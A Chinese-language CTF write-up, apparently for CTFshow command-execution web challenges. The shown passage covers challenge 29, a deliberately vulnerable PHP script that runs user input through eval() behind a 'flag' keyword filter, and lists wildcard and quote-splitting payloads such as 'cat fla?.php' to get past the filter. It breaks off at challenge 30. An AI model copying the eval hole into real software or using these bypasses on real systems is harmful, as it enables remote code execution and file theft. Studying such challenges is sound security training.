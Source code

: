 











## 信息收集







## 爆破







## 命令执行

### <font color='orange'>web29-web36+web40</font>

+++

#### 29

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

就过滤了flag，可以用**f***绕过或者**fla?.php**或者**fl''ag.php**

```
cat f*
cat fla?.php
cat fl''ag.php
tac or nl也可以
如果用''绕过的话要用``反引号，而反引号里面的内容好像前面必须带echo才能输出
```

#### 30
